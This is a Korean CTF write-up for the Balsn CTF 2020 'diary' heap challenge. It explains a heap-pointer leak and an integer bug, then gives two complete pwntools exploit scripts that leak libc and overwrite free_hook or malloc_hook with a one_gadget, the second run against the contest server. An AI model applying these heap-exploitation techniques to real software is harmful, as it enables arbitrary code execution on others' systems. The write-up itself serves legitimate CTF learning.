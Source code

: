 ```yaml
---
layout: post
title: Balsn CTF 2020 diary write up
categories: ctf-write-up
tag: [heap, ctf]
---
```


이 문제는 우분투 19.04의 Heap 문제이다.  힙 문제라 그런지 보호기법은 모두 걸려있다.
![image](https://user-images.githubusercontent.com/43925259/99204639-a3993980-27f9-11eb-873b-4116547fedd2.png)

먼저 이 프로그램엔 2가지의 버그가 존재한다.

첫 번째 버그는 name 값 바로 뒤에 힙 포인터들을 저장함으로써 발생하는 `Heap leak`이다.
두 번째 버그는 Edit 기능에 있는 `Integer issue`이다.

나는 우분투 19.04가 없어서 18.04에서 먼저 익스를 진행했다. BSS 영역에 존재하는 자기 자신을 가리키는 pointer를 이용하여 bss 영역에 원하는 값을 넣을 수가 있었다.

free가 되었는지 확인하는 변수와 힙 포인터들을 덮기 위해선 stdin과 stdout을 덮어야 했다. 이때 이 영역을 'AAAAAA....' 값을 저장해놓은 힙 주소로 덮었더니 printf가 동작하지 않았지만 puts가 동작했다.

이를 이용하여 0x80을 8개 할당하고 8개 해제함으로써 힙에 생기는 libc 주소를 leak하고 `free_hook`을 `one_gadget`으로 덮음으로써 익스를 했다.

코드는 다음과 같다.
```python
from pwn import *

p = process('./diary')
e = ELF('./diary')
libc = e.libc

def get_name():
    p.sendafter(': ', '1')

def Malloc(length, content):
    p.recv()
    p.send('2')
    p.recv(timeout=1)
    p.send(str(length))
    p.recv(timeout=1)
    p.send(content)

def View(page):
    p.recv()
    p.send('3')
    p.recv(timeout=1)
    p.send(str(page))

def Edit(page, content):
    p.recv()
    p.send('4')
    p.recv(timeout=1)
    p.send(str(page))
    p.recv(timeout=1)
    p.send(content)
    
def Free(page):
    p.recv()
    p.send('5')
    p.recv(timeout=1)
    p.send(str(page))

p.sendafter(': ', 'A' * 0x20)

for i in range(8):
    Malloc(0x80, 'B' * 0x80)

for i in range(7, -1, -1):
    Free(i)

get_name()
p.recvuntil('A' * 0x20)
leak = u64(p.recv(6).ljust(8, '\x00'))
print hex(leak)

payload = ''
payload += p32(leak >> 32)
payload += 'A' * 0x10
payload += p64(leak)
payload += 'A' * 8
payload += p64(leak)
payload += 'A' * 0x28
payload += p64(leak + 4)
payload += p64(0) * 28
Edit(-11, payload)

View(0)
leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0 
one_gadget = libc_base + 0x4f3c2

print hex(leak)
print hex(libc_base)

payload = ''
payload += p32(leak >> 32)
payload += 'A' * 0x10
payload += p64(leak)
payload += 'A' * 8
payload += p64(leak)
payload += 'A' * 0x28
payload += p64(libc_base + 0x3ecd98)
payload += p64(0) * 28
Edit(-11, payload)
Edit(0, 'A' * 4 + p64(0) * 361 + p64(one_gadget))

Free(0)
p.interactive()
```

first  blood를 할 수 있을 줄 알고 신나있었지만, 우분투 19.04에선 동작하지 않았다. 18.04와 다르게 19.04는 printf와 puts 둘다 동작하지 않아서 leak이 불가능했다.

그래서 익스 방법을 바꿔서 bss영역이 아닌 stdin 영역을 이용했다. stdin 영역의 뒤를 보면 `malloc_hook`과 `main_arena` 영역이 존재한다.

여기서 `main_arena`에 fastbin을 관리하는 영역이 존재한다. 이 영역에 원하는 힙 주소를 써주면 다음 malloc시에 우리가 써준 영역에 할당 가능하다. (단 fake size를 만들어 주어야 함)

이를 이용하여 chunk를 `overlapping`하여 leak을 하고 `malloc_hook`을 `one_gadget`으로 덮었다.

아마 이것은 언인텐드 풀이일 것이다.
```python
from pwn import *

#p = process('./diary')
p = remote("diary.balsnctf.com", 10101)
e = ELF('./diary')
libc = e.libc

def get_name():
    p.sendafter(': ', '1')

def Malloc(length, content):
    p.sendafter(': ', '2')
    p.sendafter(': ', str(length))
    p.sendafter(': ', content)

def View(page):
    p.sendafter(': ', '3')
    p.sendafter(': ', str(page))

def Edit(page, content):
    p.sendafter(': ', '4')
    p.sendafter(': ', str(page))
    p.sendafter(': ', content)
    
def Free(page):
    p.sendafter(': ', '5')
    p.sendafter(': ', str(page))

p.sendafter(': ', 'A' * 0x20)

for i in range(4):
    Malloc(0x80, '\x00' * 12 + p64(0) + p64(0x41) + (p64(0) + p64(0x61)) * 5)

get_name()
p.recvuntil('A' * 0x20)
leak = u64(p.recv(6).ljust(8, '\x00'))
print hex(leak)

Malloc(0x80, '\x00' * 12 + p64(leak + 0x250) + p64(0) + p64(leak + 0x2d0) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(leak + 0x2e0) + p64(0) + p64(leak + 0x360) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(leak + 0x370) + p64(0) + p64(leak + 0x78) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(0) + p64(0x0) + (p64(0) + p64(0x61))*5)

for i in range(7, -1, -1):
    Free(i)

Malloc(0x30, 'A' * 4 + p64(0x41)) # 8

payload = ''
payload += 'A' * (0x22c - 0x20)
payload += p64(0)
payload += p64(0x71)
payload += p64(0)
payload += p64(0)
payload += p64(0) # malloc_hook
payload += p64(0) * 3
payload += p64(leak) * 4    # 0x20 ~ 0x50
payload += p64(leak + 0x50) # 0x60
payload += p64(leak + 0x70) # 0x70
Edit(-6, payload)

Malloc(52, 'A' * 52) # 9

View(9)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1e4ca0
print hex(libc_base)

off = [0xe237f, 0xe2383, 0xe2386, 0x106ef8]

one_gadget = libc_base + off[3]

Malloc(0x50, '\x90' * 4 + p64(0x61) + p64(0) + p64(0x71) + p64(leak + 0x240) + p64(libc_base + 0x1e4c10))
Malloc(0x60, p64(0))
Malloc(0x60, '\x90' * 12 + p64(one_gadget))

p.sendafter(': ', '2')
p.sendafter(': ', '10')
p.interactive()
```